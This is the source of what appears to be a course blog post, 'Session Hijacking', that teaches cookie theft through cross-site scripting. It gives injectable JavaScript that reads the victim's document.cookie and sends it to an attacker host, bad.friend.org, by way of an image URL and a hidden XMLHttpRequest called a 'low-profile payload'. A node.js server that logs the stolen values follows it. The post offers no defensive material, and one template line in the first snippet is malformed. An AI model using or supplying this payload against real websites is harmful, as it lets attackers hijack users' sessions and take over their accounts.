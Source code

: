 ```yaml
---
layout: post
title: Session Hijacking
subtitle: Week 19 - data theft over the Internet
tags: [XSS, node, exploit]
---
```


Previously, we have demonstrated how to use ARP poison attacks to compromise unencrypted communication on local area networks (LAN). The attacks described below are effective over HTTPS traffic from external networks.

# Cookie Stealing

First, you must create an entry point on the vulnerable website with cross-site scripting. Force clients to establish a connection with your server.

## JavaScript Injection

For the code snippet below, we assume your server is accessible at the domain `bad.friend.org`.

{% highlight javascript linenos %}

let yourCookie = encodeURI(document.cookie);

// retrieve an image from the server, but send the victim's cookies as well.
let url = `http://bad.friend.org/picture.jpg?$yourCookies={yourCookie}`;
document.getElementsByTagName('image')[0].src = url;

// AJAX - Unnoticed by the typical user, low-profile payload
url = `http://bad.friend.org/gimmie?yourCookies=${yourCookie}`;
let xhr = new XMLHttpRequest();
xhr.open('GET', url, true);
xhr.send();

{% endhighlight %}

## Basic node.js Server

This is a minimal node.js server that prints HTTP request parameters to standard output.

{% highlight javascript linenos %}

const http = require('http');

http.createServer((req, res) => {

  let i = req.url.indexOf('?');
  if (i !== -1)
    console.log(req.connection.remoteAddress + ' ' + req.url.substring(i));

  res.end('thanks buddy\n');
}).listen(process.env.PORT || 8125);

{% endhighlight %}
